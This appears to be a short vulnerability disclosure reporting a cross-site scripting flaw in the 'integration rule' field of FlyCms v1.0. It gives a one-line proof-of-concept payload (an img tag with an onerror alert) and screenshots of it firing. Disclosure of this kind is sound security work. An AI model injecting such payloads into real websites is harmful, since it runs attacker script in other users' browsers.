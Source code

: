 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists at the integration rule

![1](https://github.com/ljw11e/cms/assets/155146305/e0351936-eafe-44ba-aca8-7bf5b3fe3cdc)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/ljw11e/cms/assets/155146305/dbfcfab8-39a5-4851-8128-24c251619428)
